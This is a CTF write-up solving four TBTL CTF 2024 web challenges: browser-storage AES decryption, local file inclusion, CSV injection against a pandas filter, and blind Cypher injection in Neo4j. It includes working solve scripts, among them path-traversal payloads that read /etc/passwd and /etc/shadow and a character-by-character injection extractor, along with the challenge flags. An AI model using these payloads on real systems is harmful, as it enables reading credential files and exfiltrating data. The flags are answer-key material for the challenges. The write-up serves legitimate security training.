

# TBTL CTF 2024 Writeups
Writeups for solved [TBTL CTF 2024](https://ctftime.org/event/2324) web challenges (4/4)

---


# web/Butterfly
`#indexDB` `#local-storage` `#session-storage` `#insecure-design`
> We've noticed some unusual communication occurring on a particular website. Could you assist in uncovering any hidden secrets being exchanged through this seemingly innocent platform?

[https://tbtl-butterfly.chals.io/](https://tbtl-butterfly.chals.io/)

indexdb had some suspicious looking data (flag) 

`U2FsdGVkX19wWL7itIL7TZcLTP/e1ulrZolI9AHTA8OBGOCodbZKdOxPF41rGV9C+X7PZPt9ISJKQMpTl+Fwew==`


Local storage stored some source code
```
{"code":"CryptoJS.AES.decrypt(CIPHERTEXT, KEY).toString(CryptoJS.enc.Utf8)"}
```

Session storage stored the secret AES key!
```
secret key is very secure
```
From this we have the algo, key and the ciphertext. We can decrypt it in JS 

console.js 
```js
var CIPHERTEXT = "U2FsdGVkX19wWL7itIL7TZcLTP/e1ulrZolI9AHTA8OBGOCodbZKdOxPF41rGV9C+X7PZPt9ISJKQMpTl+Fwew=="
var KEY = "secret key is very secure"
CryptoJS.AES.decrypt(CIPHERTEXT, KEY).toString(CryptoJS.enc.Utf8)
```

flag: **TBTL{th15_1S_n0t_53CUR3_5T0r4G3}**

# web/Talk-to-you
`#lfi`

LFI challenge that has a `test.php` rabbit hole 


Standard files can be found and if we just look around we can find the flag stored in `database.sqlite`.

solve script
```python
import requests 

url = "https://tbtl-talk-to-you.chals.io/"
query="?page=/../ctf/index.php"
query="?page=/../../../../../../../../../../proc/self/environ"
query="?page=/../../../../../../../../../../etc/passwd"
query="?page=/../../../../../../../../../../etc/shadow"
query="?page=/../../../../../../../../../../flag.txt"
query="?page=database.sqlite"
# query="?page=php://filter/convert.base64-encode/resource=/etc/test.php"

r = requests.get(url+query)
# r = requests.get(test)

print(r.headers)
print(r.text)
```

flag: **TBTL{4Typ1c41_d4T4B453_u54g3}**

# web/RND for DATA Science
`#csv-injection` `#pandas`

I guess theres some CSV Injection to trick intended pandas query

```python
from flask import Flask, request, send_file
from io import StringIO, BytesIO
import pandas as pd
import requests

app = Flask(__name__)


@app.route("/")
def index():
    return app.send_static_file('index.html')


@app.route("/generate", methods=['POST'])
def generate():
    data = request.form
    delimiter_const = 'delimiter'
    r = requests.post('http://127.0.0.1:5001', data=data)

    if r.text == 'ERROR':
        return 'ERROR'

    csv = StringIO(r.text)

    df = pd.read_csv(csv)

    # Filter out secrets
    first = list(df.columns.values)[1]
    df = df.query(f'{first} != "FLAG"')

    string_df = StringIO(df.to_csv(index=False, sep=data[delimiter_const]))
    bytes_df = BytesIO()
    bytes_df.write(string_df.getvalue().encode())
    bytes_df.seek(0)

    return send_file(bytes_df, download_name="data.csv")

```

The important code here is the filtering of 2nd column, if we manage to move the columns before insert we can leak the flag

```python
    # Filter out secrets
    first = list(df.columns.values)[1]
    df = df.query(f'{first} != "FLAG"')
```

If we send newline `\n` and `,` the resulting CSV table will be moved and the word `FLAG` will move to the first column
```python
import requests

url = "https://tbtl-rnd-for-data-science.chals.io/generate"

data = {
    "numColumns": 2,
    "columnName0": "test\n",
    "columnName1": "rank,", 
    "delimiter": ","
}
r = requests.post(url, data=data)
print(r.text)
```



flag: **TBTL{d4T4_5c13nc3_15_n07_f0r_r0ck135}**

# web/Mexico City Tour
`#neo4j` `#graphql`

Injection challenge in neo4j graphql. 

> The query searches a start station and end station id and does some calculation and returns the distance from each other. There is a station in which the flag is hidden. Another challenge is that it converts the distance returned from the query as an integer


For my solution, I moslty read the docs and used chat-gpt for this challenge 
https://neo4j.com/docs/cypher-manual/current/functions/string/

I was trying to convert to ascii code initially but not able to make it work. This just became boolean-based injection in the end.

source code
```python
from flask import Flask, render_template, url_for, redirect, request
from neo4j import GraphDatabase

app = Flask(__name__)

URI = "bolt://localhost:7687"
AUTH = ("", "")


def query(input_query):
    with GraphDatabase.driver(URI, auth=AUTH) as driver:
        driver.verify_connectivity()
        session = driver.session()
        tx = session.begin_transaction()
        records = [t for t in tx.run(input_query)]
        tx.rollback()
        return records


@app.route("/")
def index():
    distance = request.args.get('distance')
    stations = query('MATCH (n:Station) RETURN n.id, n.name ORDER BY n.id DESC;')
    return render_template('index.html', stations=stations, distance=distance)


@app.route("/search", methods=['POST'])
def search():
    start = request.form["startStation"]
    end = request.form['endStation']
    distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
    # distance_query = 'MATCH (n {id: city1})-[p *bfs]-(m {id: city2}) RETURN size(p) AS distance;'
    distance = query(distance_query)
    if len(distance) == 0:
        distance = 'unknown'
    else:
        distance = int(distance[0]['distance'])
    return redirect(url_for('.index', distance=distance))

```


Initial query looks like this
```python
distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
# injected
distance_query = 'MATCH (n {id: 1})//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'
```

sample payload wlll look like
```python
# returns 1 if substring index 0 of n.name is "F"
payload = "-1}) RETURN toInteger(replace(substring(n.name, 0, 1), \"F\", \"1\")) AS distance;//

# payload injected
distance_query = 'MATCH (n {id: -1}) RETURN toInteger(replace(substring(n.flag,"+str(i)+", 1), \""+q+"\", \"1337\")) AS distance;//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'

# })-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;  gets commented out
```
solve.py 
```python
import requests
import re

url = 'https://tbtl-mexico-city-tour.chals.io/search'

# distance_query = 'MATCH (n {id: 1})//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'
def querier(i, q):
    # generate a single query
    payload = "-1}) RETURN toInteger(replace(substring(n.flag,"+str(i)+", 1), \""+q+"\", \"1337\")) AS distance;//"
    data = {
        "startStation": payload,
        "endStation": "1",
    }
    return data


def main():
    _min = 32
    _max = 126
    flag = ""

    for i in range(0, 30):
        for c in range(_min, _max):
            q = chr(c)
            data = querier(i, q) 
            r = requests.post(url, data=data)
            if re.search(r'1337', r.text):
                flag += q
                print(flag)
                break
            else:
                pass

if __name__ == "__main__":
    main()
```
flag: **TBTL{wh3R3_15_mY_GR4PH_h1dd3n}**
